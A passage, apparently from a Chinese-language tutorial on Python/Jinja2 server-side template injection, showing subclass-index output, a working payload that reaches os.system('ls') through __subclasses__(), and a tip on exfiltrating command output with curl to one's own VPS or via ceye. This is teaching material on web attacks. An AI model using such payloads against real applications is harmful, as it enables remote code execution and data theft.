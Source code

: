 输出

```
-
71 <class 'site._Printer'>
-
-
-
-
76 <class 'site.Quitter'>
```

payload

```
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
```

构造 paylaod 的思路和构造文件读取的是一样的。只不过命令执行的结果无法直接看到，需要利用 curl 将结果发送到自己的 vps 或者利用 [ceye](https://www.freebuf.com/column/(http%3A//ceye.io/profile))

分享一篇关于 jinja2 模板注入的 bypass。[传送门](https://0day.work/jinja2-template-injection-filter-bypasses/)

后记
--

ssti 的 paylaod 的构造很多变，不过思路就是那样，如果对魔术方法和 python 的模块比较熟悉。就构造很多 paylaod。文章如果哪里不对，欢迎师傅们斧正。